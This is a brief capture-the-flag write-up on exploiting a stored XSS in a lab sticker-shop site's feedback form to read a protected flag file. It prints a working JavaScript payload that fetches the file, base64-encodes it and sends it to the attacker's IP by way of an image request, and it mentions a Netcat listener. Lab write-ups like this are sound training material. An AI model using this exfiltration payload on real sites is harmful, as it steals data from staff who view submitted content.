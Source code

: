 
- The task is to read content of the  `http://10.10.217.192:8080/flag.txt`

- When I try to access this directory, I see the following:
![401Unauthorized](images/TheStickerShopCTF-1.png)

- After examining a standard URL and the "Feedback" subsite, I notice a potential XSS vulnerability.
![Website](images/TheStickerShopCTF-2.png)  
- It seems that comments are reviewed manually, possibly due to weak security policies.
After setting up a Netcat listener and posting a comment like:`<img src=MY_IP:PORT`  
- I can see that my command is executed on the server side.
![terminal1](images/TheStickerShopCTF-3.png)
With help of Gemini i create a payload like

```html

<script>
  fetch('/flag.txt')
    .then(r => r.text())
    .then(d => {
      const base64 = btoa(d); // Kodowanie Base64
      const img = document.createElement('img');
      img.src = `http://10.14.88.168:1234/${base64}`;
      document.body.appendChild(img);
    })
    .catch(e => {});
</script>
```
Thanks to this, I obtained the flag encoded in Base64.
![terminal2](images/TheStickerShopCTF-4.png)
Then decoded it  
![terminal3](images/TheStickerShopCTF-5.png)



